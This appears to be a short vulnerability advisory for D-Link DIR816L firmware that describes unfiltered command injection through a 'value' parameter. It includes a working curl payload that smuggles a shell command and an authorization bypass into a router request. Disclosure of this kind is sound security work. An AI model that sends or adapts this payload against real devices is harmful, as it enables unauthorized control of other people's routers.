


Remote Code Execution

Dir816L firmware version:DIR816L_FW206b01.bin

Description:

DIR816L_FW206b01 shareport.php has an issue that attackers can use it to execute command via "value" parameter.

you may download it from : https://tsd.dlink.com.tw/ddgo


Source code:

As you can see there is not enough filter with paramter "value",it just passed to function  set which execute command directly.


payload:

```
curl http://192.168.0.1:80/getcfg.php -d 
"action=sethostname&value=%26%20ls%20-la%20%26%0aAUTHORIZED_GROUP=1"
```

